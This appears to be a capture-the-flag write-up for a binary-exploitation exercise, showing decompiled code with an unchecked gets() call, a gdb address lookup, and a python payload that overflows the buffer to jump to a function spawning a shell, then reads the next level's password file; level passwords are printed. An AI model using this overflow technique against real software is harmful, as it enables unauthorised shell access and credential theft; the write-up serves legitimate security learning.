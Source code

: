 # Level 1
*pass : 1fe8a524fa4bec01ca4ea2a869af2a02260d4a7d5fe7e7c24d8617e6dca12d3a*

## Analyze
```
$ ls
level1
$ ./level1

```

extract `level1`
```
scp -P 4242 level1@192.168.56.108:level1 .
```

Using `ghidra` :
```
void main(void)

{
  undefined local_50 [76];
  
  gets(local_50);
  return;
}
```
`gets` : reads a line from stdin

```
void run(void)

{
  fwrite("Good... Wait what?\n",1,0x13,stdout);
  system("/bin/sh");
  return;
}
```

## Buffer overflow

Try to excecute run function.

```
(gdb) info funct run
All functions matching regular expression "run":

Non-debugging symbols:
0x08048444  run
0xb7f15530  truncate
0xb7f15580  ftruncate
0xb7f155d0  truncate64
0xb7f15630  ftruncate64
0xb7f4c7a0  svc_run
```

`run` address : 0x08048444

```
$ python -c 'print "a" * 76 + "\x44\x84\x04\x08"' > /tmp/level1
$ cat /tmp/level1 - | ./level1
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```
